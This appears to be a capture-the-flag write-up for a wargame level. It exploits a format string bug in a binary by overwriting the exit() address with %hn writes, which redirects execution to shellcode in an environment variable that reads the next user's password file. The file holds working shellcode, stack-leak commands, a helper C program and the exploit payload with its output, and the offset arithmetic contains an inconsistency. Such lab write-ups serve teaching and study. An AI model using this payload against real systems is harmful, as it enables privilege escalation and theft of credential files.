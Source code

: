 # Level05

> For introductory information on this operating system and binary securities, check [here](./analysis.md).

Using [`gdb`](https://linux.die.net/man/1/gdb), we can dig through the binary to understand what's going on (full analysis [here](./gdb.md)). This time we'll use a format string attack to inject a Shellcode at some existing address, here a `exit()` call at address `0x0804 97e0`.

```shell
  export SHELLCODE=$(python -c "print '\x90' * 1000 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level06/.pass'")
```

> This shellcode was found [here](http://shell-storm.org/shellcode/files/shellcode-73.php) and basically read a file and output its content to standard input.

We'll need to find our input on the stack first:

```shell
 $> (python -c "print 'aaaa' + ' | %x' * 16") | ./level05 
  aaaa | 64 | f7fcfac0 | f7ec3af9 | ffffd2bf | ffffd2be | 0 | ffffffff | ffffd344 | f7fdb000 | 61616161 | 25207c20 | 207c2078 | 7c207825 | 20782520 | 7825207c | 25207c20
```

> `aaaa` is equal to `61616161` in hexadecimal. As we can see, there, our format string is the 10th argument on the stack.

Last step would be to get the actual address of that shellcode in our environment, using the following small program.

```C
  #include <stdio.h>
  #include <stdlib.h>

  int main(int argc, char** argv)
  {
    printf("env address at %p\n", getenv(argv[1]));
    return (0);
  }
```

Finally piece everything together... To make our life easier, we'll split our attack in two part so that overriding the whole address of `exit()` will be faster. We'll override high order bytes first at `exit()` address and low order bytes at `exit()` address + **2**.

```shell
  $> python -c "print '\x08\x04\x97\xe0'[::-1] + '\x08\x04\x97\xe2'[::-1]  + '%<LOWER_BYTES_OFFSET>%10\$hn'+ '%<HIGHER_BYTES_OFFSET>%11\$hn'" | ./level05 
  ...
  h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

> For example, let's say our shellcode is at adress `0x673f92b6`.
>
> `LOWER_BYTES_OFFSET` is computed as follow: Shellcode lower bytes (`0x92b6` => **37558**) - already printed bytes (address of `exit()` + adress of `exit()`+ **2** => **8**). So **37550**.
>
> `HIGHER_BYTES_OFFSET` is computed as follow: `0xffff` - `LOWER_BYTES_OFFSET` - **8** => **65535** - **37558** - **8** = **27969**

So next user credentials pair is `level06:h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq`.

Check [here](../source.c) for reproduction source-code of this binary.